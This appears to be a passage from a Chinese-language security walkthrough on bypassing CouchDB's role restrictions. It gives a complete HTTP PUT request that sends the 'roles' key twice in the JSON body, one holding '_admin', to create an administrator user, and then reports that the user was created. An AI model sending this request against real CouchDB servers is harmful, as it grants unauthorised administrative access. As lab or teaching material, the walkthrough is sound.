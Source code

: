 ![5cfe35326689f17529](/assets/img/posts/5cfe35326689f17529.png)

重复发送 roles 参数，成功绕过限制，创建用户

```textile
PUT /_users/org.couchdb.user:username HTTP/1.1

Host: your-ip:5984

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: application/json

Content-Length: 111

{

  "type": "user",

  "name": "username",

  "roles": ["_admin"],

  "roles":[],

  "password": "password"
}
```

成功创建用户

![5cfe365ebd34e80865](/assets/img/posts/5cfe365ebd34e80865.png)
